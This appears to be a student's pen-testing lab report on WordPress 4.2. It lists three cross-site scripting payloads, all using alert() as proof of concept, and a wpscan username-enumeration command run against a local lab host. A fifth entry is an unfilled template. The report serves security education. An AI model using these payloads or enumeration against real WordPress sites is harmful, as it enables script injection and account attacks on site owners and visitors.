 # Project 7 - WordPress Pen Testing

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. (Required) Vulnerability Name: Authenticated Stored Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version:  4.2.3
- [ ] GIF Walkthrough: <img src=XSS1.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: ```<a href="</a><a title=" onmouseover=alert('test')  ">link</a>```
- [ ] Affected source code:
  - [Link 1](https://klikki.fi/adv/wordpress3.html)
  
### 2. (Required) Vulnerability Name: Unauthenticated Genericons Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.2
- [ ] GIF Walkthrough: <img src=XSS2.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: 
    ```http://www.example.com/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror= alert(1)>``` 
- [ ] Affected source code:
  - [Link 1](https://wpscan.com/vulnerability/21169b6d-61dd-4abc-b77b-167ff5f122ac)

### 3. (Required) Vulnerability Name: Authenticated Shortcode Tags Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.4
- [ ] GIF Walkthrough: <img src=XSS3.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: ```XSS LOL!!![caption width='1' caption='<a href="' ">]</a><a href="http://onMouseOver='alert(/xss/)' style='display:block;position:absolute;top:0px;left:0px;margin-left:-1000px;margin-top:-1000px;width:99999px;height:99999px;'"></a>```
- [ ] Affected source code:
  - [Link 1](https://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)

### 4. (Optional) Vulnerability Name: Enumerate Usernames

- [ ] Summary: 
  - Vulnerability types: Enumerate Usernames
  - Tested in version: 4.2 
  - Fixed in version: 
- [ ] GIF Walkthrough: <img src=enumerate.gif />
- [ ] Steps to recreate: 
      ```wpscan --url http://wpdistillery.vm/ --enumerate u```
- [ ] Affected source code:
  - [Link 1](https://www.wpwhitesecurity.com/enumerate-wordpress-users-wpscan-security-scanner/)

### 5. (Optional) Vulnerability Name or ID

- [ ] Summary: 
  - Vulnerability types:
  - Tested in version:
  - Fixed in version: 
- [ ] GIF Walkthrough: 
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...
<!-- Recommended GIF Tools:
[Kap](https://getkap.co/) for macOS
[ScreenToGif](https://www.screentogif.com/) for Windows
[peek](https://github.com/phw/peek) for Linux. -->

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2022] [Xujuan Chen]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
